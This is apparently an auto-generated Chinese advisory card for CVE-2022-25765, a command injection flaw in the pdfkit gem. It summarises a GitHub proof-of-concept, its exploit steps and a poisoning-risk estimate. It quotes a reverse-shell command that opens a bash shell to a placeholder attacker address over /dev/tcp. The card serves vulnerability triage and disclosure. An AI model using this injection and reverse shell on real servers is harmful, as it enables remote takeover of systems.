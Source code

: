 ## CVE-2022-25765-pdfkit-命令注入

**漏洞编号:** CVE-2022-25765

**漏洞类型:** 命令注入

**影响应用:** pdfkit

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** < 0.8.7.2

**利用条件:** 需要目标服务器运行存在漏洞的pdfkit版本，并允许通过URL方式转换PDF

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2022-25765是pdfkit gem中的一个命令注入漏洞。根据漏洞描述，由于pdfkit没有正确地过滤URL，攻击者可以通过在URL中注入恶意命令来执行任意代码。提供的POC代码展示了如何利用这个漏洞：

1.  启动一个HTTP服务器，用于接收反弹shell。
2.  启动一个netcat监听器，用于接收反弹shell。
3.  构造一个包含恶意命令的URL，并将其传递给pdfkit。URL中的`bash -c 'exec bash -i &>/dev/tcp/Target_ADRESS/LISTENING_PORT<&1'` 部分会尝试建立一个反向shell连接到攻击者的服务器。

**有效性：**  根据漏洞信息和POC代码，该漏洞利用方法有效。攻击者可以通过构造恶意的URL，利用`pdfkit`生成PDF文件的功能，执行任意命令。

**投毒风险：**  仓库中主要为漏洞说明和POC，直接执行反弹shell命令，恶意代码本身就是为了验证漏洞的存在和利用。评估该仓库存在投毒代码的风险较低，约10%。风险主要在于下载和执行POC脚本的人可能不清楚其潜在风险，直接执行可能导致安全问题。需要人工审核代码，保证下载的代码和公开的代码是一致的。

**利用方式：** 攻击者通过构造包含恶意命令的URL，传递给存在漏洞的pdfkit应用。pdfkit在处理URL时，没有进行充分的过滤，导致恶意命令被执行。攻击者可以通过反弹shell获取目标服务器的控制权，或者执行其他恶意操作。

**项目地址:** [lekosbelas/PDFkit-CMD-Injection](https://github.com/lekosbelas/PDFkit-CMD-Injection)

**漏洞详情:** [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)